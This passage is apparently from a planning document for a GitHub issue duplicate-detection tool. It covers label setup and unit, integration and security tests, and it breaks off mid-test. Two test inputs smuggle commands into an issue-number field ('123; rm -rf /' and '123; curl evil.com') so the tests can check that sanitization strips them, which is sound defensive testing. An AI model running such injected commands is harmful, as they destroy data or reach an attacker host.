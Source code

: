 ### Label System Integration
```bash
# Use existing dynamic label discovery pattern
AVAILABLE_LABELS=$(gh label list --repo ondrasek/ai-code-forge --json name --jq '.[].name')

# Check for override label existence
if echo "$AVAILABLE_LABELS" | grep -q "not-duplicate"; then
    # Label exists, proceed with override check
else
    # Create label if it doesn't exist (one-time setup)
    gh label create "not-duplicate" --color "28a745" --description "Override duplicate detection"
fi
```

## TESTING STRATEGY

### 1. Unit Testing Approach
```bash
# Test similarity calculation functions
test_jaccard_similarity() {
    local result=$(calculate_jaccard_similarity "test words" "test words")
    assert_equals "1.000" "$result"
}

# Test input sanitization
test_input_sanitization() {
    local result=$(sanitize_issue_number "123; rm -rf /")
    assert_equals "123" "$result"
}
```

### 2. Integration Testing
```bash
# Mock GitHub CLI for testing
gh() {
    case "$1 $2" in
        "issue view") echo '{"title":"Test Issue","body":"Test content"}' ;;
        "issue list") echo '[{"number":123,"title":"Similar Issue"}]' ;;
        *) return 1 ;;
    esac
}

# Test full workflow
test_duplicate_detection_workflow() {
    result=$(analyze_duplicates 456 0.85)
    assert_contains "$result" "High Confidence Matches"
}
```

### 3. Security Testing
```bash
# Test command injection prevention
test_command_injection_prevention() {
    local malicious_input="123; curl evil.com"
    local result=$(sanitize_issue_number "$malicious_input")
    assert_not_contains "$result" "curl"
}

# Test rate limiting behavior
test_rate_limit_handling() {
    # Mock rate limit response
    export MOCK_RATE_LIMITED=true
    result=$(safe_gh_api_call issue list)
```
